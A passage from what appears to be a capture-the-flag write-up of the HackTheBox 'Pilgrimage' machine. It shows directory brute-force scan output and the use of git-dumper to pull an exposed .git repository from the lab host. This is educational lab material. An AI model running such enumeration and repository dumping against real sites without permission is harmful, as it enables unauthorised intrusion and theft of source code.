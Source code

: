     301      GET        7l       11w      169c http://pilgrimage.htb/assets/css => http://pilgrimage.htb/assets/css/
    301      GET        7l       11w      169c http://pilgrimage.htb/assets/images => http://pilgrimage.htb/assets/images/
    302      GET        0l        0w        0c http://pilgrimage.htb/dashboard.php => http://pilgrimage.htb/login.php
    301      GET        7l       11w      169c http://pilgrimage.htb/vendor => http://pilgrimage.htb/vendor/
    301      GET        7l       11w      169c http://pilgrimage.htb/vendor/jquery => http://pilgrimage.htb/vendor/jquery/
    404      GET        0l        0w      153c http://pilgrimage.htb/assets/domaincheck.php
    404      GET        0l        0w      153c http://pilgrimage.htb/landing-page-4
    404      GET        0l        0w      153c http://pilgrimage.htb/assets/images/news6.php
    404      GET        0l        0w      153c http://pilgrimage.htb/vendor/javeabenitachell.php
    [####################] - 4m    240000/240000  0s      found:17      errors:2682   
    [####################] - 4m     30000/30000   106/s   http://pilgrimage.htb/ 
    [####################] - 4m     30000/30000   106/s   http://pilgrimage.htb/tmp/ 
    [####################] - 4m     30000/30000   106/s   http://pilgrimage.htb/assets/ 
    [####################] - 4m     30000/30000   106/s   http://pilgrimage.htb/assets/js/ 
    [####################] - 4m     30000/30000   106/s   http://pilgrimage.htb/assets/css/ 
    [####################] - 4m     30000/30000   106/s   http://pilgrimage.htb/assets/images/ 
    [####################] - 4m     30000/30000   106/s   http://pilgrimage.htb/vendor/ 
    [####################] - 4m     30000/30000   106/s   http://pilgrimage.htb/vendor/jquery/ 
    

`/tmp` is interesting, but visiting just gets a 403 forbidden.

## Shell as emily

### Get Git Repo

[git-dumper](https://github.com/arthaud/git-dumper/tree/master) is a nice tool
for pulling Git repos from websites. It installs with `pipx install git-
dumper`. I’ll create a directory for the results to go to, and then run it
against Pilgrimage:

    
    
    oxdf@hacky$ git-dumper http://pilgrimage.htb git
    [-] Testing http://pilgrimage.htb/.git/HEAD [200]
    [-] Testing http://pilgrimage.htb/.git/ [403]
    [-] Fetching common files
    [-] Fetching http://pilgrimage.htb/.gitignore [404]
    [-] http://pilgrimage.htb/.gitignore responded with status code 404
    [-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
    [-] Fetching http://pilgrimage.htb/.git/description [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/applypatch-msg.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/commit-msg.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/post-commit.sample [404]
    [-] http://pilgrimage.htb/.git/hooks/post-commit.sample responded with status code 404
    [-] Fetching http://pilgrimage.htb/.git/hooks/post-receive.sample [404]
    [-] http://pilgrimage.htb/.git/hooks/post-receive.sample responded with status code 404
    [-] Fetching http://pilgrimage.htb/.git/hooks/post-update.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/pre-applypatch.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/pre-commit.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/pre-rebase.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/pre-receive.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/update.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/hooks/prepare-commit-msg.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/objects/info/packs [404]
    [-] http://pilgrimage.htb/.git/objects/info/packs responded with status code 404
    [-] Fetching http://pilgrimage.htb/.git/hooks/pre-push.sample [200]
    [-] Fetching http://pilgrimage.htb/.git/index [200]
    [-] Fetching http://pilgrimage.htb/.git/info/exclude [200]
    [-] Finding refs/